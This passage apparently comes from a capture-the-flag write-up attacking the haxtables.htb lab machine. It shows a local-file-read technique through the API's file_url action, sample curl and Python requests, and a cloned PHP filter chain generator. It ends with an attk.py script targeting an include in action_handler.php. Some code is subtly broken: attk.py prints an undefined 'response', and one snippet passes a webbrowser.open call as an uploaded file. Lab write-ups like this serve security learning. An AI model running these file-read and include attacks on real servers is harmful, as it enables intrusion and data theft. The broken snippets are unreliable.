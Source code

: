 ```shell
## let's download all php files
# downloading html -> haxtables contents
mkdir -p html/assets/{img,css,js}
python3 modified-str2hex-file_url.py /var/www/html/index.php | jq .data | xxd -r -p > ./html/index.php 

# downloading api -> api contents
mkdir -p api/v3/tools/string
python3 modified-str2hex-file_url.py /var/www/api/v3/tools/string/index.php | jq .data | xxd -r -p > ./api/v3/tools/string/index.php
```
With some understanding of the code and some research figured out a `curl` format for using the api and correctly passing the data. Also tried several variations of getting a shell on the box but I was unable to.
```php
# post request formats
curl -X POST -F "data_file=@index.php" -F "action=file_url" http://api.haxtables.htb/v3/tools/string/index.php

curl -X POST -H "Content-Type: application/json" -d '{"action": "md5", "data": "hello world"}' http://api.haxtables.htb/v3/tools/string/index.php

# with data_file
import requests

data = {
  'action': 'urldecode'
}

f = {'data_file' : __import__('webbrowser').open('http://10.10.11.198/index.php')}

response = requests.post('http://api.haxtables.htb/v3/tools/string/index.php', data=data, files=f)
print(response.text)
```
After a lot of trials had to lean on others' shared solution to get past this blocker using [synactiv's php filter chain generator](https://github.com/synacktiv/php_filter_chain_generator).  Download the repository.

```shell
# download a gadget chain generator
git clone https://github.com/synacktiv/php_filter_chain_generator.git
```
Create a Python script to exploit the action_handler.php `include` function.  
[attk.py](#)
```python
import requests, sys

json_data = {
  'action': 'b64encode',
  'file_url': f'image.haxtables.htb/actions/action_handler.php?page={sys.argv[1]}'
}

requests.post('http://api.haxtables.htb/v3/tools/string/index.php',json=json_data)
print(response.text)
```
